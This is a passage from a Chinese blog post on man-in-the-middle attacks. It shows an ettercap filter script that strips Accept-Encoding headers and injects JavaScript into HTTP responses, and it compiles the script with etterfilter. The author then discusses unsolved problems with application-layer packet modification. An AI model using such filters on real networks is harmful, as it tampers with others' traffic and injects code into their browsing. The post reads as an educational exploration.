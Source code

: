 ettercap的过滤脚本语法如下：

```js
if (ip.proto == TCP && tcp.dst == 80)
{
    if (search(DATA.data, "Accept-Encoding"))
    {
        replace("Accept-Encoding", "Accept-Rubbish!");
        msg("zapped Accept-Encoding!\n");
    }
}

if (ip.proto == TCP && tcp.src == 80)
{
    replace("<head>", "<head><script type=\"text/javascript\">alert('Big brother is watching at you');</script>");
    replace("<HEAD>", "<HEAD><script type=\"text/javascript\">alert('Big brother is watching at you');</script>");
    msg("Injecting OK!!\n");
}
```

这里是一个例子，我来解释一下：

* search是用来寻找某个字符串
* replace很简单，就是直接替换字符串，这里我们可以插入JS
* msg打印信息

我们需要讲这个脚本保持为`test.filter`，随后用ettercap编译。

`etterfilter test.filter -o test.ef`

编译后的.ef文件就可以拿来进行篡改数据包了。

ettercap十分强大，仍然有许多功能，这里就不找教程了，需要的Google吧。

## 尚未实现...

中间人攻击的基本内容就是这些，但是仍然没有实现修改报文的内容，插入JS，事实上这部分也是最好玩的。

我个人目前遇到的问题，思考的内容如下：

* 尝试过libpcap，前面讲过在转发的过程中遇到一些问题，效率也不高。
* 尝试过libnet，在构造数据包的时候，让系统填充校验和，至于序列号和确认号不做处理，转发。结果是可以发送成功，浏览器并没有加载。
* 尝试过raw Socket，浏览器同样没有接收，感觉是这个应该要有专门的接收函数或者是识别的地方？
* 是否处理好校验和计算算法就好了呢？别的地方不需要修改吗？
* 初步判定HTTP头部中记载的数据会影响到最后加载的结果。
* 网上的说法基本上都是从内核层面改造，利用netfilter框架修改数据包，内核层面可以修改确实好理解，那么应用层修改为什么会出现问题呢？
* 关于序列号和确认号，他们会在每次修改后增加上一次的偏移量，但是一旦出现中间某个包发生丢失，而那个包中含有要修改的地方，此后所有包的这两个数据均会发生错误，这一点在现在高丢包率的网络中是比较复杂的。

希望能和有看到这里的有进一步想法的各路大佬一起思考一下，欢迎评论（要翻墙），或者发送至我的邮箱`zxc479773533@gmail.com`。